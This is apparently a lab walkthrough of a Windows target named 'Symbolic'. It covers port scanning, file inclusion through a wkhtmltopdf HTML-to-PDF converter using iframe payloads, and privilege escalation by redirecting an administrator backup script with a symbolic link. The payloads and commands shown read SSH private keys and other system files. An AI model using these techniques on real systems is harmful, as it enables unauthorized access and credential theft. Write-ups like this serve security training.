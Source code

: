 # Symbolic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.177
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 20:55 +08
Nmap scan report for 192.168.202.177
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

SSH was open on this machine, which was unusual for Windows.&#x20;

### WebPage to PDF --> LFI

Port 80 was rather simple:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

I created a HTML file with one word within it, then hosted it on my HTTP server and submitted the URL with my IP. This returned a PDF:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to enumerate any version:

```
$ exiftool ac354a9d4d469ef971709095540b2f42.pdf 
ExifTool Version Number         : 12.57
File Name                       : ac354a9d4d469ef971709095540b2f42.pdf
Directory                       : .
File Size                       : 6.6 kB
File Modification Date/Time     : 2023:07:06 21:03:17+08:00
File Access Date/Time           : 2023:07:06 21:03:17+08:00
File Inode Change Date/Time     : 2023:07:06 21:03:25+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.3
Producer                        : Qt 4.8.7
Create Date                     : 2023:07:06 06:02:52-07:00
Page Count                      : 1
```

Googling exploits for this version show that LFI is a possibility:

{% embed url="https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/" %}

{% embed url="https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/" %}

The exploit here is the content of the HTML file being used. Here's my PoC:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts">
```

When we host this HTML file on a HTTP server and use the website's converting feature, this is what we are returned:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This confirms that LFI works. We can edit the PoC to show all the content:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find the correct file to read. The website gives us a username `p4yl0ad`, and SSH is open, so let's try to read the user's private key.

```markup
<iframe src="C:/users/p4yl0ad/.ssh/id_rsa" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as the user:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Script --> Symbolic Link Write

There was a `C:\backup` directory with a script in it:

```
p4yl0ad@SYMBOLIC C:\backup>dir 
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\backup

03/10/2023  11:59 AM    <DIR>          .
03/10/2023  11:59 AM    <DIR>          ..
10/11/2021  09:11 PM               207 backup.ps1
07/06/2023  06:09 AM    <DIR>          logs

p4yl0ad@SYMBOLIC C:\backup>type backup.ps1 
$log = "C:\xampp\htdocs\logs\request.log" 
$backup = "C:\backup\logs"

while($true) {
        # Grabbing Backup
        copy $log $backup\$(get-date -f MM-dd-yyyy_HH_mm_s)
        Start-Sleep -s 60
}
```

There was a backup directory being updated, and this script was running once every minute or so. The script is also owned by the administrator:

```
p4yl0ad@SYMBOLIC C:\backup>icacls backup.ps1
backup.ps1 SYMBOLIC\Administrator:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We also have write access over `C:\xampp\htdocs\logs\request.log`, meaning that we can create a symbolic link to make the script read and copy any file we want. Again, since SSH is open, we can attempt to get the admin's private key.&#x20;

First we need to delete the `logs` directory:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs>del logs 
C:\xampp\htdocs\logs\*, Are you sure (Y/N)? y
```

We cannot create a symbolic link to the private SSH key using conventional means because we aren't given access:

```
p4yl0ad@SYMBOLIC C:\backup>powershell -c New-item -ItemType SymbolicLink -Path "C:/xampp/htdocs/logs/request.log" -T
arget "C:/users/administrator/.ssh/id_rsa"
New-item : Access is denied
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], Unauthoriz  
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.NewItemCommand        
 
New-item : Cannot find path 'C:\users\administrator\.ssh\id_rsa' because it does not exist.
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], ItemNotFound  
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.NewItemCommand
```

We can create a junction however:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs\logs>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 5C30-DCD7

 Directory of C:\xampp\htdocs\logs

07/06/2023  06:22 AM    <DIR>          .
07/06/2023  06:22 AM    <DIR>          ..
07/06/2023  06:22 AM    <JUNCTION>     request.log [C:\Users\Administrator\.ssh\id_rsa]
```

But the above won't work. What worked was `CreateSymlink.exe` from this repo:

{% embed url="https://github.com/googleprojectzero/symboliclink-testing-tools" %}

We can download and upload that binary. Then, we can run it:

```
p4yl0ad@SYMBOLIC C:\Windows\Tasks>.\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\users\administrator\.ss
h\id_rsa"
Opened Link \RPC Control\request.log -> \??\C:\users\administrator\.ssh\id_rsa: 00000174 
Press ENTER to exit and delete the symlink
```

I waited for a while and then deleted the symlink. When we check the `C:\backup\logs` directory's newest file that is significantly larger than the rest, we find an SSH key:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Then, use this key to `ssh` in as the administrator:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

